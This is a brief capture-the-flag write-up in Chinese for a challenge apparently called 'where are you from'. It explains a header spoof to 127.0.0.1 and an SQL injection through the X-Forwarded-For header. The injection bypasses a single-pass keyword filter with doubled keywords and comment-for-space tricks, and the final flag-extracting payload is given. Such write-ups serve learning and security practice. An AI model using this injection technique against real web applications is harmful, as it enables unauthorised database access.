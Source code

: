 # where are you from  Writeup

## level 1

X-Forwarded-For头设置为127.0.0.1即可。

## level 2

X-Forwarded-For处的注入，过滤了空格和一些关键字，但是关键字只过滤了一次，因此可以双写绕过。最终getflag的payload：

```
X-Forwarded-For: 12',(selselectect/**/fl4g/**/ffromrom/**/flaaag))#
```
